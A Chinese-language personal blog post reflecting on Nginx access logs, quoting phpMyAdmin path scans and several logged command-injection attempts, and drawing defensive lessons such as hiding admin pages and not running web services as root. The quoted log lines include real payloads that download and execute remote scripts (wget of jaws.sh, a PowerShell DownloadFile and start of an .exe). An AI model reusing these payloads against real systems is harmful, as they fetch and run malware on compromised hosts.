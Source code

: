```json lw-blog-meta
{"title":"读Nginx日志有感","date":"2019-07-18","brev":"【网络安全真的很重要】虽然在学习各种框架的时候，都会有五花八门的安全提示，但是我真的从没有认真去考虑过安全问题。这几天看了看自己Nginx服务器的日志，感觉有点后怕。","tags":["Web"]}
```



## 还好我没有学PHP

肉眼所见，几乎全部都是针对`php`的攻击，主要分两种：

### 探测漏洞文件

可以看到从某个ip发来了无数个请求，请求各种看起来会很常见的php文件，像这样：

```shell
121.50.168.75 - - [17/Jul/2019:07:35:54 +0000] "GET /phpMyAdmina/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:54 +0000] "GET /phpMydmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:54 +0000] "GET /phpMyAdmins/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:56 +0000] "GET /phpMyAdmin._/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:58 +0000] "GET /phpMyAdmin._2/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:58 +0000] "GET /phpmyadmin2222/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:58 +0000] "GET /phpmyadmin3333/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:59 +0000] "GET /php2MyAdmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:59 +0000] "GET /phpiMyAdmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:59 +0000] "GET /phpNyAdmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
```

主要思路就是瞎猫碰死耗子，看看能不能蒙出你的管理页面（或者数据库之类的脚本），如果真的有的话，估计还有后续手段。

然后我们查一下这个ip地址，显示的信息是supercloud.cc（香港 环球全域电讯）的机房，
那估计是黑客在这里租了一个服务器作为跳板进行攻击了。

**收获：隐藏好你的管理页面，最好不要对外公开（或者限定ip访问）。**

### 注入脚本攻击

还可以看到有些请求是在url中附带了脚本命令，像这样：

```shell
89.248.174.198 - - [17/Jul/2019:23:56:44 +0000] "GET /shell?cd+/tmp;wget+http:/\x5C/89.248.174.198/jaws.sh+-O+-+>smoke.sh;chmod+777+smoke.sh;sh+smoke.sh HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36" "-"

49.234.49.224 - - [17/Jul/2019:19:53:26 +0000] "GET /public/hydra.php?xcmd=cmd.exe%20/c%20powershell%20(new-object%20System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe');start%20%SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe HTTP/1.1" 404 555 "http://49.234.46.113:80/public/hydra.php?xcmd=cmd.exe /c powershell (new-object System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe');start %SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe" "Mozilla/4.0 (compatible; MSIE 9.0; Windows NT 6.1)" "-"

82.117.191.2 - - [17/Jul/2019:16:44:21 +0000] "GET /webadmin/script?command=|busybox HTTP/1.1" 400 157 "-" "Mozilla/5.0" "-"
```

主要思路就是，看能不能通过你的web服务，在你的主机上执行指定的命令。例如`chmod+777+smoke.sh`，
`wget+http:/\x5C/89.248.174.198/jaws.sh`，`DownloadFile('http://fid.hognoob.se/download.exe'`
这种，就算是外行也能感觉到很危险吧。

**收获：不要使用`root`权限用户运行web服务；无论何时，必须对用户提交的任何数据进行检查。**

这让我想起了`uWSGI`日志中的警告：

```text
uWSGI running as root, you can use --uid/--gid/--chroot options
*** WARNING: you are running uWSGI as root !!! (use the --uid flag) ***
```

有点不寒而栗的感觉。看来以后还是要乖乖听取前人的话才是。

## Good News

但在Internet上也不全是坏事。

我也看到了来自百度的问候：

```shell
123.125.67.156 - - [18/Jul/2019:02:50:16 +0000] "GET /robots.txt HTTP/1.1" 404 555 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.93 Safari/537.36" "-"

220.181.108.153 - - [18/Jul/2019:02:53:57 +0000] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)" "-"
```

非常友善地自报家门，甚至还会敲敲门（robot.txt）。

这也提醒了我，我还没设置`robot.txt`文件呢。不过我这也没什么秘密，直接建立一个空文件就好了。
详情参考[解释](https://www.robotstxt.org/robotstxt.html)。

## 小结

放眼望去基本都是针对`php`的攻击（没办法，谁让你这个`/php?xxxxx`是如此地个性呢）。
看完之后甚至想笑——还好我没学php。

当然，也有一些针对nginx的，还有一些看不出手段，但是也是通过脚本注入的形式来控制你的服务器。

相应的我觉得也有办法，使用虚拟机/容器技术，刚好就可以很大程度上的减少这类攻击带来的损失。

不过最好的还是要防患于未然了！

## 后记 （2020-05-27）

现在回头来看，这些所谓的”攻击“其实**可能**是云服务商自带的一些漏洞扫描，主要是扫描一些常见的低级错误。不用过于大惊小怪。不过谨慎些总是好的。
